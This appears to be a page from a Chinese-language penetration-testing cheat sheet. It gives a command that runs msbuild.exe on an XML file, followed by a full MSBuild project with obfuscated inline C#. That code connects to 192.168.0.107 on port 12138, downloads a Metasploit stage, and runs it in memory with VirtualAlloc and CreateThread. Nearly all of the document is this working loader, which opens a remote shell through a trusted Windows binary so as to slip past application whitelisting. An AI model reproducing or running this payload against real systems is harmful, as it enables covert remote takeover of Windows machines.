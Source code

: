 	https://gitee.com/RichChigga/msbuild-exec
	MSF监听
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe 1.xml
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="iJEKHyTEjyCU">
<xUokfh />
</Target>
<UsingTask
TaskName="xUokfh"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
<Task>
<Code Type="Class" Language="cs">
<![CDATA[
using System; using System.Net; using System.Net.Sockets; using System.Linq; using System.Runtime.InteropServices;
using System.Threading; using Microsoft.Build.Framework; using Microsoft.Build.Utilities;
public class xUokfh : Task, ITask {
[DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 ogephG,UInt32 fZZrvQ, UInt32 nDfrBaiPvDyeP, UInt32 LWITkrW);
[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 qEVoJxknom, UInt32 gZyJBJWYQsnXkWe, UInt32 jyIPELfKQYEVZM,IntPtr adztSLHGJiurGO, UInt32 vjSCprCJ, ref UInt32 KbPukprMQXUp);
[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr wVCIQGmqjONiM, UInt32 DFgVrE);
static byte[] VYcZlUehuq(string IJBRrBqhigjGAx, int XBUCexXIrGIEpe) {
IPEndPoint DRHsPzS = new IPEndPoint(IPAddress.Parse(IJBRrBqhigjGAx),XBUCexXIrGIEpe);
Socket zCoDOd = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
try { zCoDOd.Connect(DRHsPzS); }
catch { return null;}
byte[] OCrGofbbWRVsFEl = new byte[4];
zCoDOd.Receive(OCrGofbbWRVsFEl, 4, 0);
int auQJTjyxYw = BitConverter.ToInt32(OCrGofbbWRVsFEl, 0);
byte[] MlhacMDOKUAfvMX = new byte[auQJTjyxYw + 5];
int GFtbdD = 0;
while (GFtbdD < auQJTjyxYw)
{ GFtbdD += zCoDOd.Receive(MlhacMDOKUAfvMX, GFtbdD + 5, (auQJTjyxYw -GFtbdD) < 4096 ? (auQJTjyxYw - GFtbdD) : 4096, 0);}
byte[] YqBRpsmDUT = BitConverter.GetBytes((int)zCoDOd.Handle);
Array.Copy(YqBRpsmDUT, 0, MlhacMDOKUAfvMX, 1, 4); MlhacMDOKUAfvMX[0]= 0xBF;
return MlhacMDOKUAfvMX;}
static void NkoqFHncrcX(byte[] qLAvbAtan) {
if (qLAvbAtan != null) {
UInt32 jrYMBRkOAnqTqx = VirtualAlloc(0, (UInt32)qLAvbAtan.Length, 0x1000, 0x40);
Marshal.Copy(qLAvbAtan, 0, (IntPtr)(jrYMBRkOAnqTqx),qLAvbAtan.Length);
IntPtr WCUZoviZi = IntPtr.Zero;
UInt32 JhtJOypMKo = 0;
IntPtr UxebOmhhPw = IntPtr.Zero;
WCUZoviZi = CreateThread(0, 0, jrYMBRkOAnqTqx, UxebOmhhPw, 0, ref JhtJOypMKo);
WaitForSingleObject(WCUZoviZi, 0xFFFFFFFF); }}
public override bool Execute()
{
byte[] uABVbNXmhr = null; uABVbNXmhr = VYcZlUehuq("192.168.0.107",12138);
NkoqFHncrcX(uABVbNXmhr);
return true; } }
]]>
</Code>
</Task>
</UsingTask>
</Project>

```
 #### Winrm
	MSF监听